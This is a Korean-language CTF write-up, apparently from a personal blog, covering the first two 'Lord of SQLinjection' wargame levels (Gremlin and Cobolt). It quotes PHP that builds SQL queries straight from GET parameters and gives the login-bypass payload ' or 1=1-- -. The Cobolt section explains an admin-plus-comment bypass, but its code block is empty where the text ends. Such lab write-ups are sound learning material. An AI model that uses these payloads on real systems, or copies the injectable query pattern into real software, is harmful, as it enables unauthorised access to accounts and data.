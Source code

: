 ```yaml
---
title: Lord of SQLinjection Writeup - 1
description: Lord of SQLinjection
date: 2024-11-10 00:02:00 +09:00
last_modified_at: 2024-11-10 00:02:00 +09:00
categories: [Hacking, Web]
# toc: false 오른쪽에 있는 목차 비활성화
# comments: false 댓글 비활성화
tags:
  [
    Hacking,
    Database,
  ]
---
```

## Gremlin
가장 기본적인 SQL-i 공격 기법이다.
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
### exploit
아무 필터링도 하지 않는 취약한 코드를 사용한다.<br>
'or 1=1을 입력하여 쿼리를 참으로 만드는데 성공했다.
```sql
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
-> select id from prob_gremlin where id='' or 1=1-- -' and pw='{$_GET[pw]}
payload=' or 1=1-- -
```
<br>

## Cobolt
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
### exploit
1번 문제와 다른 점은 pw를 md5를 사용해 암호화한다는 것과 조회된 id가 admin인지 확인한다는 것이다.
이 부분은 조회할 id를 admin으로 명시하고 pw 부분을 주석 처리하여 우회한다.
```sql
```